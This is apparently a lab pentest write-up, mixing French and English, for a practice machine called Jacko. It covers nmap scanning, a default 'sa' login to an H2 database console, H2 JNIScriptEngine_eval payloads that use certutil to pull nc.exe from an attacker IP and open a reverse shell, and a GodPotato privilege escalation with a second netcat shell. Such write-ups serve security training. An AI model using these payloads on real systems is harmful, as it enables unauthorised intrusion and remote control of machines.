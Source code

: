 ```yaml
---
description: used https://github.com/felixbillieres/TemplateGenerator for the template
---
```


# Jacko

## Rapport de Pentest pour Jacko

### Informations de base

* **Nom de la box**: Jacko
* **Adresse IP**: 192.168.169.66
* **Date**: 3/22/2025

### Phases de Pentest

#### 1. Reconnaissance

* Scan Nmap initial: `nmap -sC -sV -oA initial 192.168.169.66`
* Scan complet: `nmap -p- --min-rate 10000 -oA full 192.168.169.66`
* Vérification des versions des services découverts

#### 2. Énumération

* Énumération des utilisateurs, groupes, et autres informations pertinentes
* Recherche de vulnérabilités connues pour les services identifiés

So we discovers some interesting services:

<figure><img src="../../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

So i look for known exploits of default creds ->

There were plenty of "default passwords" so i just tried one after another and eventually got in the system with username sa and no passwd:

<figure><img src="../../../.gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

Then i look for authenticated exploits and found this:

{% embed url="https://www.exploit-db.com/exploits/49384" %}

#### 3. Exploitation

* Tentatives d'exploitation des vulnérabilités découvertes
* Obtention d'un premier accès à la cible

and after running some SQL commands i got what seemed to ba an RCE:

<figure><img src="../../../.gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

Then after trying plenty of stuff i found this article that seemed preety accurate:

{% embed url="https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2" %}

and i see some default commands in the [http://www.h2database.com/html/functions.html](http://www.h2database.com/html/functions.html)

Here is my process for getting netcat on the target and getting my reverse shell:

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.210:80/nc.exe C:/Windows/Temp/nc.exe").getInputStream()).useDelimiter("\\Z").next()');
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Windows/Temp/nc.exe 192.168.45.210 4444 -e cmd").getInputStream()).useDelimiter("\\Z").next()');
```

{% hint style="info" %}
Key takes:

try port 80

C:/Windows/Temp/ rather than C:/Temp/

for windows RS, put cmd and not sh -> nc.exe 192.168.45.210 4444 -e cmd
{% endhint %}

After i transfer winpeas to the target:

<figure><img src="../../../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>

#### 4. Post-Exploitation

so i saw that i was very limited so i did part of my enumeration on the web interface and saw this:

<figure><img src="../../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

Sweet, so i need to download plenty of stuff to the machine:

{% embed url="https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070" %}

nc.exe

godpotato.exe

```
god.exe -cmd "C:\Users\tony\Desktop\nc.exe -e cmd.exe 192.168.45.210 9898"
```

<figure><img src="../../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

#### 5. Nettoyage

* Suppression des traces laissées sur la cible
* Documentation des vulnérabilités et méthodes d'exploitation
